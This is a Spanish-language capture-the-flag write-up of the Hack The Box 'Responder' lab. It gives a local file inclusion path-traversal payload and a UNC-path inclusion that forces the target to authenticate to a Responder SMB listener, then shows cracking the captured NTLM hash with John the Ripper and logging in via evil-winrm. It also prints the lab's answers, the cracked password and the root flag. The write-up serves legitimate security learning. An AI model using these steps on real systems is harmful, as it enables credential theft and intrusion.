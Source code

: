 ```yaml
---
title: HTB - Responder
date: 2022-06-19 3:30:00
categories: [Hack The Box, Starting Point]
tag: [Web, Responder, LFI]
img_path: /assets/img/htb/responder
image:
   path: preview1.png
   width: 345
   height: 164
   alt: 
---
```

<h2 style="color:#8FD6E1">Escaneo</h2>
---
Realizamos un escaneo de `nmap` para identificar los puertos abiertos y servicios.

```console
nmap -v -p- --min-rate 5000 -sV -sC {target ip}
```

Resultado del escaneo:

```console
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 15:41 CDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Nmap scan report for 10.129.39.225
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.94 seconds
```

Visitamos el servidor web corriendo en el puerto 80 mediante el navegador web.

![](Pasted image 20220427161647.png)
![](Pasted image 20220427161628.png)

Nos redirige a una pagina web llamada `unika.htb`. Debido a que nos encontramos dentro de la misma red que la máquina objetivo y que ese dominio no esta registrado en un servidor DNS, procedemos a agregar la ip y el nombre de dominio al archivo `/etc/hosts` para poder visualizar la pagina web.

![](Pasted image 20220427162215.png)

Ahora ya podemos visualizarla.

![](Pasted image 20220427162345.png)

Navegando por la página nos encontramos con un apartado para cambiar el idioma, si nos fijamos en la url se ve como se incluye un archivo llamado `french.html` mediante otro archvio llamado `index.php`.

![](Pasted image 20220427162745.png)

Vamos a pasarle al parámetro <b style="color:#800000">"page"</b> la siguiente cadena para saber si es vulnerable a <b style="color:#800000">LFI</b> y como consecuencia a <b style="color:#800000">path traversal</b>.

```console
../../. ./../../../../../windows/system32/drivers/etc/hosts
```

![](Pasted image 20220427163537.png)

![](Pasted image 20220427163432.png)

Como podemos ver existe una vulnerabilidad en esta web.

<h2 style="color:#D8B9C3">Ganando Acceso (Admin)</h2>
---
Regresando al escaneo, el puerto `5985` se encuentra abierto lo que quiere decir que <b style="color:#800000">WinRM</b> esta disponible. Podemos aprovecharnos del <b style="color:#800000">LFI</b> de la página web para capturar el <b style="color:#800000">hash NTLM</b> de la máquina con ayuda de la herramienta `responder`.

Vamos a ejecutar la herramienta con el siguente comando.

```console
sudo responder -I tun0
```
> `tun0` es la interfaz de red de nuestra máquina
{: .prompt-info }

![](Pasted image 20220427170550.png)

Verificamos que el servidor <b style="color:#800000">SMB</b> este activado.

![](Pasted image 20220427170523.png)

Mientras `responder` esta esperando una conexion, nos dirigimos a la URL de la página web e ingresamos la siguiente cadena en el parámetro page.

```console
//{our machine ip}/somefile
```
Esto para que la página incluya un "recurso" de nuestro servidor `SMB` y se establezca una conexión.

![](Pasted image 20220427171130.png)

Vemos en la terminal que se ha capturado el <b style="color:#800000">hash NTLM</b>.

![](Pasted image 20220427171250.png)

Guardamos el hash en un archivo de texto y lo desciframos con ayuda de la herramienta `John The Ripper` .

![](Pasted image 20220427171705.png)

```console
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

![](Pasted image 20220427172056.png)

A continuación utilizamos la herramienta `evilwinrm` para autenticarnos en el sistema con las credenciales obtenidas.

```console
evil-winrm -i {target ip} -u administrator -p badminton
```

![](Pasted image 20220427172504.png)

Ahora solo queda buscar el archivo `flag.txt`. 
> Este se encuentra en la ruta `C:\Users\mike\Desktop`.
{: .prompt-info }

![](Pasted image 20220427172844.png)

<h2 style="color:#9C3D54">Preguntas</h2>
---
1. ¿Cuántos puertos TCP están abiertos en la máquina?

   <b style="color:#800080">3</b>

2. Al visitar el servicio web utilizando la dirección IP, ¿cuál es el dominio al que se nos redirige?

    <b style="color:#800080">unika.htb</b>

3. ¿Qué lenguaje de secuencias de comandos se utiliza en el servidor para generar páginas web?

    <b style="color:#800080">php</b>

4. ¿Cuál es el nombre del parámetro de URL que se usa para cargar diferentes versiones de idioma de la página web?

    <b style="color:#800080">page</b>

5. ¿Cuál de los siguientes valores para el parámetro `page` sería un ejemplo de explotación de una vulnerabilidad de inclusión de archivo local (LFI): "french.html", "//10.10.14.6/somefile", "../../. ./../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

    <b style="color:#800080">../../. ./../../../../../windows/system32/drivers/etc/hosts</b>

6. ¿Qué significa NTLM?

    <b style="color:#800080">New Technology LAN Manager</b>

7. ¿Qué indicador usamos en la utilidad Responder para especificar la interfaz de red?

    <b style="color:#800080">-I</b>

8. Hay varias herramientas que aceptan un desafío/respuesta de NetNTLMv2 y prueban millones de contraseñas para ver si alguna de ellas genera la misma respuesta. A una de estas herramientas se la suele denominar `john`, pero el nombre completo es ¿cuál?.

    <b style="color:#800080">John The Ripper</b>

9. ¿Cuál es la contraseña para el usuario administrador?
 
    <b style="color:#800080">batminton</b>

10. Usaremos un servicio de Windows (es decir, que se ejecuta en la caja) para acceder de forma remota a la máquina Responder usando la contraseña que recuperamos. ¿En qué puerto TCP escucha?

     <b style="color:#800080">5985</b>

**Root Flag:** <b style="color:#FF8B00">ea81b7afddd03efaa0945333ed147fac</b>

![](Pasted image 20220427134218.png)
